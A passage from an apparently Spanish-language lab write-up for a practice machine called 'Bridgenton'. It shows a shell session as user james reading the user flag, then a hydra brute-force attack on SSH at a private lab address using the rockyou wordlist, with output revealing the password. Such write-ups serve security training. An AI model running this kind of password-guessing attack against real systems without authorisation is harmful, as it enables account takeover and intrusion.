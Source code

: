 ```bash
james
```
Listo, ya estamos dentro.

Ya solo obtenemos la flag del usuario:
```bash
james@Bridgenton:~$ ls -la
total 36
drwx------ 4 james james 4096 abr  2  2024 .
drwxr-xr-x 3 root  root  4096 mar 29  2024 ..
lrwxrwxrwx 1 root  root     9 abr  2  2024 .bash_history -> /dev/null
-rw-r--r-- 1 james james  220 mar 29  2024 .bash_logout
-rw-r--r-- 1 james james 3526 mar 29  2024 .bashrc
drwxr-xr-x 3 james james 4096 abr  1  2024 .local
-rw-r--r-- 1 james james  807 mar 29  2024 .profile
-rw------- 1 root  james    5 mar 30  2024 .python_history
drwx------ 2 james james 4096 abr  2  2024 .ssh
-rw-r--r-- 1 james james    0 abr  1  2024 .sudo_as_admin_successful
-rw-r--r-- 1 james james   33 abr  2  2024 user.txt
james@Bridgenton:~$ cat user.txt
...
```

<br>

<h2 id="FuerzaBruta">Aplicando Fuerza Bruta al Servicio SSH para Encontrar Contraseña de Usuario James</h2>

Como ya tenemos un usuario válido para el **servicio SSH**, podemos intentar aplicarle fuerza bruta.

Quizá podemos encontrar la contraseña de dicho usuario.

Usaremos **hydra** para aplicar el ataque:
```bash
hydra -l james -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.40
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-20 12:33:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.1.40:22/
[STATUS] 245.00 tries/min, 245 tries in 00:01h, 14344156 to do in 975:48h, 14 active
[22][ssh] host: 192.168.1.40   login: james   password: bowwow
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-20 12:35:05
```
De igual forma, obtuvimos su contraseña.
